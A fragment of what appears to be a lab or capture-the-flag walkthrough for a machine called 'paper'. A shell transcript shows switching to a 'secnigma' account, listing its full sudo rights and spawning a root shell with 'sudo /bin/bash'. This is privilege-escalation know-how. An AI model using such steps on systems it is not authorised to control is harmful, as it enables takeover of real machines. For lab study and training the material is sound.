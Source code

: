 Then : 
```sh

[dwight@paper shm]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo -l
[sudo] password for secnigma: 
Matching Defaults entries for secnigma on paper:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User secnigma may run the following commands on paper:
    (ALL) ALL
[secnigma@paper ~]$ sudo /bin/bash
[root@paper secnigma]# whoami
root
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]#

```